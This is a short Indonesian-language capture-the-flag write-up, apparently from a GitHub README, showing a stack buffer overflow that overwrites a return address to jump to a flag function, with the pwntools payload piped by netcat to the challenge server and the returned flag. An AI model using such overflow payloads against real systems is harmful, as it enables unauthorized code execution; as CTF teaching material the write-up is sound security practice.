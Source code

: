 Terlihat return address telah diganti menjadi 0x41414141. Berarti kita perlu memberi input berupa padding sebanyak 0x34 karakter diikuti dengan address fungsi flag, lalu ditambah lagi karakter sampah sampai panjangnya 0x100.



### Payload
`$ python -c "from pwn import p32;print 'A'*0x34+p32(0x080491c2)+'A'*(0x100-0x34-0x4)" | nc asgama.web.id 40211`


### Result 
```
python -c "from pwn import p32;print 'A'*0x34+p32(0x080491c2)+'A'*(0x100-0x34-0x4)" | nc asgama.web.id 40211
GamaCTF{Ini_Bukan_Flagnya}
```

### Flag 
GamaCTF{Ini_Bukan_Flagnya}